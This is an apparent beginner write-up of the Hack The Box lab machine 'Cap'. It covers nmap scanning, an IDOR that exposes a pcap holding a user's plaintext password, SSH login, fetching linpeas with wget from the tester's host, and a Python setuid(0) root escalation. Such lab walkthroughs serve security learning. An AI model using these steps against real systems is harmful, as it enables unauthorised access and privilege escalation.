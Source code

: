 # Cap

Hi:) this is my first write up and I decided to chose easy machine **Cap** from HTB.

## Enumeration

Just starting with Nmap:

```
nmap -sVC 10.10.10.245
```

![nmap](https://github.com/user-attachments/assets/428de170-61a9-4b2b-be77-85d76d020844)

Here we can see 3 tcp ports and on one of them there is FTP, in the future it may be useful. But now let’s check the website. Add this to hosts file (or the site will not work):

```
10.10.10.245 cap.htb
```

## Checking HTTP (port 80)

![site1](https://github.com/user-attachments/assets/2632adb9-433d-40ae-a186-bbc7a642a361)

Wow, it's logged as user. Here we can see different pages: _**IP config**_ shows output of the `ifconfig` command, _**Network status**_ the output of the `netstat`, but the "Security snapshot" caught my attention.

![image](https://github.com/user-attachments/assets/1ccaa9f8-46dd-47cf-a25e-2798dde41062)

When downloading, we get a **6.pcap** file, by opening it with **wireshark**, we can see the network data. If we try to re-visit this page, we will see a different value in the address bar, I have this value `7`. And if we try to change this value ourselves, there will be another file. Well, this is [IDOR](https://en.wikipedia.org/wiki/Insecure_direct_object_reference).

Deciding to check each **pcap** file, I tried the value `0`, and yes! This one is different from the others.

![image](https://github.com/user-attachments/assets/b54cf197-700e-45ba-8001-1e227f15069f)

After analyzing it a little, I saw these lines:

![image](https://github.com/user-attachments/assets/0477b462-75ea-48b0-af83-fa7082b9e875)

Here we see requests in which the user _**Nathan**_ logs in and is successful, which means we can use this data.

### What we have at the moment? 
- Login: Nathan
- Password: Buck3tH4TF0RM3!


We've found out the most important thing, so now we can move on to logging in and searching for the flag.

Now we log in with this data, I will use SSH because it is more convenient, but you can also use FTP.

```
ssh nathan@10.10.10.245
```

![image](https://github.com/user-attachments/assets/dd52c114-7a7b-49d7-82a7-d14918ec18ce)

And here is our user flag.

## Privilege Escalation

![image](https://github.com/user-attachments/assets/98284242-7e7e-4e65-9392-9d934aca2e50)

As we can see, our **Nathan** does not have the ability to use `sudo`, so we use `linpeas`.

Launching our server on Python:

```
sudo python3 -m http.server 9999
```
and with `wget` getting `linpeas`:

```
wget http://10.10.14.139:9999/linpeas.sh
```

![image](https://github.com/user-attachments/assets/4ec087bf-b0e1-48c1-a4e7-091e7055277c)

Launching linpeas:

```
nathan@cap:~$ ./linpeas.sh
```
![image](https://github.com/user-attachments/assets/8367a5e4-c23a-4b19-9ccd-709f2034566d)

And that's the vulnerability, which means that with Python's help we can change Nathan's ID to Root's ID.

```
nathan@cap:~$ python3
>>> import os
>>> os.setuid(0)
```
using `set.uid(0)`, we change our userid.

```
>>> pty.spawn("bash")
```
Now, using `pty`, we get access to bash as a root.

![image](https://github.com/user-attachments/assets/a432e117-9ff0-4541-ade3-06d74da0cefc)

And now we are a root!

![image](https://github.com/user-attachments/assets/37bba4fa-8f56-4b30-8c2a-20d6643fce4c)

And here is the root flag.

The Cap is a fairly simple machine, but nevertheless interesting and ideal for beginners. But that's all, thanks for reading and good luck with hacking :)
